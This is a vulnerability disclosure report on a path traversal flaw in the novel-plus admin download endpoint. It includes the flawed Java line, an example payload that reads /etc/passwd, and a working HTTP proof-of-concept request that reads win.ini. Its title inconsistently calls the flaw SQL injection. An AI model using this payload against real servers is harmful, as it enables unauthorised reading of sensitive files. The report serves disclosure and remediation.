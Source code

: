 ## Vulnerability Submitter

##### Name:   邓俊锋

## SQL injection vulnerability exists in novel-plus v5.1.0

**Vulnerability Impact Scope**

`novel-plus < v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file:** 

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`

![image-20250402224625364](./img/1.png)This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)

![image-20250219195734596](./img/2.png)

2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.

![](./img/3.png)

**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).

